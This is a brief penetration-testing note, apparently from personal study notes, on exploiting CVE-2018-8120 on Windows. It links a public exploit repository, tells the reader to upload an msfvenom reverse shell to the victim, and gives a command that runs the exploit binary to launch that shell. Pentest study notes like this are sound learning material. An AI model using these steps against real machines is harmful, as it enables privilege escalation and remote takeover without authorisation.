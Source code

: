 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2018-8120

Upload file along with a msfvenom reverse shell to victim.

![[4._File Transfers#Certutil]]

```command prompt - wiudows
./x86.exe reverse86.exe
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
